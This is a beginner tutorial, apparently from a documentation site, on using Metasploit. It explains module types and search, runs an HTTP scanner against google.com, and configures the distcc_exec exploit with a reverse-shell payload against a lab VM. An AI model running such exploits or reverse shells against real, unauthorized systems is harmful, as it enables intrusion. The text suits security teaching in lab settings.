```yaml
---
title: "Introduction to Metasploit"
description: "Learn more about the Metasploit framework."
icon: "code"
draft: false
---
```


Assuming you now have Metasploit installed, run the `msfconsole` command to open Metasploit:

![msf](https://i.imgur.com/I2r5rxg.png)

## Finding Modules

Metasploit is based around the concept of modules. The most commonly used module types are:

- Auxiliary - Auxiliary modules do not exploit a target, but can perform data gathering or administrative tasks
- Exploit - Exploit modules leverage vulnerabilities in a manner that allows the framework to execute arbitrary code on the target host
- Payloads - Arbitrary code that can be executed on a remote target to perform a task, such as creating users, opening shells, etc
- Post - Post modules are used after a machine has been compromised. They perform useful tasks such as gathering, collecting, or enumerating data from a session.

You can use the search command to search for modules:

```sh
search type:auxiliary http html title tag
```
![aux](https://i.imgur.com/zfS0jeL.png)

You can use a Metasploit module by specifying the full module name. The prompt will be updated to indicate the currently active module:

Example: 
```sh
use auxiliary/scanner/http/title
```

Each module offers configurable options which can be viewed with the show options, or aliased options, command:

```sh
show options
```
https://i.imgur.com/pyHXlf7.png

To set a module option, use the set command. We will set the RHOST option - which represents the target host(s) that the module will run against:

```sh
set RHOSTS google.com
```

The run command will run the module against the target, showing the target’s HTTP title:

https://i.imgur.com/xG4VbZ4.png

We can also run modules with options set as part of the run command. For instance, setting both RHOSTS and enabling HttpTrace functionality:

```sh
run rhosts=google.com httptrace=true
```

https://i.imgur.com/jAchW4Z.png

There is quite a lot of information on the output and you can scroll more to see it.

## Running exploit modules
Exploit modules require a vulnerable target. It is recommended to set up your own local test environment to run modules against. For instance in a Virtual Machine, or with Docker. There are multiple pre-built vulnerable test environments including:

Metasploitable2
Metasploitable3
For instance - targeting a vulnerable Metasploitable2 VM and using the unix/misc/distcc_exec module:
```sh
use unix/misc/distcc_exec
```

Exploit modules will generally at a minimum require the following options to be set:

- RHOST - The remote target host address
- LHOST - The listen address. Important This may need to be set to your tun0 IP address or similar, if you are connecting to your target over a VPN
- PAYLOAD - The code to be executed after an exploit is successful. For instance creating a user, or a Metasploit session. Often this can be left as the default value, but may sometimes require configuration

Each module offers configurable options which can be viewed with the show options, or aliased options, command:

https://i.imgur.com/5YTf1lE.png

For this scenario you can manually set each of the required option values (RHOST, LHOST, and optionally PAYLOAD):

```sh
set rhost => 192.168.123.133
set lhost 192.168.123.1
set payload cmd/unix/reverse
```

The run command will run the module against the target, there is also an aliased exploit command which will perform the same action:

```sh
run 
```


You have now learnt how to find and run modules in Metasploit, as well as how to make some custom configurations.